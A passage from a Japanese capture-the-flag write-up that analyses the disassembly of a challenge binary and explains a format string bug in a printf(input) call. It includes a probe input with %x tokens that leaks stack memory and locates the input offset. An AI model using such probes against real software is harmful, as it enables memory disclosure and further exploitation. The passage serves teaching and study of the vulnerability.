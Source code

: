 #### canFlag(0x418)
　まず注目すべき点は、どのような入力をしてもフラグを表示してくれそうにないということである。

```sh
 8048681:       8b 84 24 18 04 00 00    mov    0x418(%esp),%eax     # FLAG: # if(canFlag == 1)
 8048688:       85 c0                   test   %eax,%eax                    #   ↓ canFlag(0x418) は 1 に初期化されている
 804868a:       0f 95 c0                setne  %al                          #   ↓ 従って必ず式の結果は true
 804868d:       84 c0                   test   %al,%al                      #   ↓ goto LOOP の処理を避けることは出来ない
 804868f:       75 89                   jne    804861a <main+0x66>          # goto LOOP
```

　上記4行で行っているのは `if(canFlag == 1)` に相当する処理であり、 `canFlag(0x418)` 変数の値は

```sh
 804860d:       c7 84 24 18 04 00 00    movl   $0x1,0x418(%esp)             # int canFlag = 1
```

　の行で `1` に初期化されている（ `804860d` アドレスを参考に逆アセンブル結果を見て欲しい。 `LOOP` ラベルの直前だ）

　従って、正常な処理フローではこのif文を抜けられず、その後に続く `flag.txt` を `fopen()` で読み出して `printf()` で表示する処理に到達できないことが分かる。

　これこそが、この問題が提示している**謎**である。

### FSB(Format String Bug)
　謎を解く鍵は、このプログラムの持つ脆弱性 `Format String Bug` だ。

```sh
 80485fc:       e8 b3 fe ff ff          call   80484b4 <printf@plt>         # printf(input)
```

　この行こそ脆弱性である。

　`FSB(Format String Bug)` は、書式指定可能な関数においてメモリの内容を読み・書きが可能な脆弱性である。今回は `printf` 関数であり、正しく使えば何も問題はないのだが。

```c++
printf("%s", input);    // 脆弱性なし
printf(input);          // 脆弱性あり
```

　`printf` 関数の書き方一つで脆弱性を持ってしまう。

　実際に入力して脆弱性を確認してみよう。

```sh
[q4@eceec62b961b ~]$ ./q4
What's your name?
AAAA,%x,%x,%x,%x,%x,%x,%x
Hi, AAAA,400,f7cdc580,ffb69918,6,0,41414141,252c7825

Do you want the flag?
```

　`%x` は16進数で値を表示する書式トークンであり、見事にメモリの読み出しに成功している。 

　`AAAA` と言う文字列は16進数表現だと `41414141` になり、丁度6番目の `%x` に値が出現している。

　このように、書式トークンが機能することこそが脆弱性なのである。
